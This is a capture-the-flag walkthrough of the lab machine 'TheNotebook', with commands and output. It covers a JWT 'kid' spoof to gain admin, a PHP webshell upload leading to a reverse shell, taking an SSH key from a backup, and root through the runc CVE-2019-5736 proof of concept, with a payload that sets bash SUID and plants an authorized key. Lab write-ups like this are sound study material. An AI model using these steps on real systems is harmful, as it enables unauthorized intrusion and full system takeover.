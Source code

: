 # TheNotebook

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.71.99  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 09:27 EDT
Nmap scan report for 10.129.71.99
Host is up (0.0081s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

### Notebook --> JWT Spoof

The website is a notebook website:

<figure><img src="../../../.gitbook/assets/image (623).png" alt=""><figcaption></figcaption></figure>

We can create a new user because we don't have any credentials. Once created, we can login and view our notes, of which we have none:

<figure><img src="../../../.gitbook/assets/image (10) (7) (2).png" alt=""><figcaption></figcaption></figure>

When the requests are viewed in Burp, we can see that it uses a JWT token and a `uuid` parameter:

{% code overflow="wrap" %}
```http
GET / HTTP/1.1
Host: 10.129.71.99
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.71.99/70e7d57d-8987-4075-9a28-2c9075219c68/notes
Connection: close
Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly9sb2NhbGhvc3Q6NzA3MC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6InRlc3QxMjMiLCJlbWFpbCI6InRlc3RAd2Vic2l0ZS5jb20iLCJhZG1pbl9jYXAiOjB9.HOnHZHkqdPXbWn4LJrSgF4-DX0UXztaiQxefbsp0DteIvaQUtOMkAGgTvvZex0QU63vcrnXwQRTj5MLfMp1JyFHUWIS5J9slqqhXGsNNSOBQHmHlvptTLa8mvJCZJJAqymKCxGswa41Nu7hb20W3Ksi7iQSg9JcZoy9WeFV9lbEhBiSrler_H1LiSzkF-x4vegERnJiGkZ4hK_2LjVObeeY3ZCQcJWjCH3Cuo2YG1rVas4h0YBinnSq9ANvUsovpLolovsOUP4TNDPzIlccMjmhU0R_yhh5WItg0uG_PiQaACryT3G2_PYw5PRj_Dj5COrHtzYaT2NES2q54WecSJOWfD7RUW6o-yB4SFC_lJVqfqE3DljujJwGcOf8SP43kAf1z_VLGKuUkHceOsvU60aEDZDcgnJB4LTuIjqunIVzZ22lnlfHDGe1zJza8bpUVk-2xDDmqj1F3bBsCMQOXnmMmffBpSFPjsTyBwZM2F3kNEmopZiHr1S1UzeMolW98gzIrwGM8jx1lMOV76SNlK6vGP-q_UoFOg8F07aB6ClPqtbw83cyQZLn2kME40XDBzZgNgbzXmZXfnBg83mkWis9KQhOL8FJ3MPha7h0tfSnsiUXV2s7vATWXlrydpQL6gsWsuWt-cn6CQGEPAX0svar_9K8Pyd08NDJJpNdVfmg; uuid=70e7d57d-8987-4075-9a28-2c9075219c68
Upgrade-Insecure-Requests: 1
```
{% endcode %}

We can take a look at this cookie within jwt.io and see that it uses a private key hosted on the server.&#x20;

<figure><img src="../../../.gitbook/assets/image (627).png" alt=""><figcaption></figcaption></figure>

The token is spoofable, similar to another machine Unicode. We can generate our own private key using `openssl` and use it to spoof the token by replacing the `kid` parameter with a link hosting the key instead. Also, we can change `admin_cap` to be 1.&#x20;

```bash
openssl genrsa -out priv.key 2048
```

<figure><img src="../../../.gitbook/assets/image (455).png" alt=""><figcaption></figcaption></figure>

When we use this token after refreshing the page, we can see an Admin Panel present.&#x20;

<figure><img src="../../../.gitbook/assets/image (648).png" alt=""><figcaption></figcaption></figure>

Then, we can view the notes of the administrator through Admin Panel > View Notes.

<figure><img src="../../../.gitbook/assets/image (442).png" alt=""><figcaption></figcaption></figure>

Conveniently, the first note reveals that PHP files are left executable on this website.

<figure><img src="../../../.gitbook/assets/image (628).png" alt=""><figcaption></figcaption></figure>

The admin panel also has an upload file feature:

<figure><img src="../../../.gitbook/assets/image (649).png" alt=""><figcaption></figcaption></figure>

I uploaded a basic PHP webshell, and the page shows this:

<figure><img src="../../../.gitbook/assets/image (525).png" alt=""><figcaption></figcaption></figure>

Using this, we can get RCE:

<figure><img src="../../../.gitbook/assets/image (631).png" alt=""><figcaption></figcaption></figure>

And subsequently, a reverse shell.

<figure><img src="../../../.gitbook/assets/image (437).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

We can't grab the user flag yet as `noah` owns it.

### Home.tar.gz

I viewed the `nginx` configuration files:

```
www-data@thenotebook:/$ cat /etc/nginx/sites-available/default
server {
        listen 80 default_server;
        root /var/www/html;
        server_name _;
        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/var/run/php/php7.2-fpm.sock;
        }
        location / {
                proxy_pass http://127.0.0.1:8080/;
        }
}
```

There was nothing much there that was new. Within the `/var/backups` file, there was an extra file present:

```
www-data@thenotebook:/var/backups$ ls
apt.extended_states.0     apt.extended_states.2.gz  home.tar.gz
apt.extended_states.1.gz  apt.extended_states.3.gz
```

We can copy this folder to `/dev/shm` and open it there since we can't create new files within `/var/backups`.

```
www-data@thenotebook:/var/backups$ cp home.tar.gz /dev/shm
www-data@thenotebook:/var/backups$ cd /dev/shm
www-data@thenotebook:/dev/shm$ ls
home.tar.gz
www-data@thenotebook:/dev/shm$ tar -xvf home.tar.gz 
home/
home/noah/
home/noah/.bash_logout
home/noah/.cache/
home/noah/.cache/motd.legal-displayed
home/noah/.gnupg/
home/noah/.gnupg/private-keys-v1.d/
home/noah/.bashrc
home/noah/.profile
home/noah/.ssh/
home/noah/.ssh/id_rsa
home/noah/.ssh/authorized_keys
home/noah/.ssh/id_rsa.pub
```

We can grab the `id_rsa` file and `ssh` in as `noah`.&#x20;

### Sudo Privileges

We can check our `sudo` privileges:

```
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
noah@thenotebook:~$ docker --version
Docker version 18.06.0-ce, build 0ffa825
```

It seems that we can run docker as `root`. Googling for exploits pertaining to this version reveals a CVE that allows for RCE. This is caused by an outdated `runc` binary that is run from the container.&#x20;

{% embed url="https://github.com/Frichetten/CVE-2019-5736-PoC" %}

Download this repositroy, and we can change the payload run to something else:

{% code overflow="wrap" %}
```bash
var payload = "#!/bin/bash \n chmod u+s /bin/bash && echo 'KEY' >> /root/.ssh/authorized_keys"
```
{% endcode %}

Then we can run `go build main.go` to build it. Then, following the PoC, we can create a Docker container using the `sudo` command allowed.

```bash
sudo /usr/bin/docker exec -it webapp-dev01 /bin/bash
```

Afterwards, within the container, run the `main` binary and it will hang:

```
root@0f4c2517af40:/opt/webapp# ./main 
[+] Overwritten /bin/sh successfully
```

On a second Window, we need to run the `sudo` command one more time, and on the Docker container, it would execute properly:

{% code overflow="wrap" %}
```
root@0f4c2517af40:/opt/webapp# ./main 
[+] Overwritten /bin/sh successfully
[+] Found the PID: 3292
[+] Successfully got the file handle
[+] Successfully got write handle &{0xc00036e060}
[+] The command executed is#!/bin/bash 
 chmod u+s /bin/bash && echo 'KEY' >> /root/.ssh/authorized_keys
```
{% endcode %}

Then, we can just `ssh` into `root`.&#x20;

<figure><img src="../../../.gitbook/assets/image (644).png" alt=""><figcaption></figcaption></figure>

Rooted!
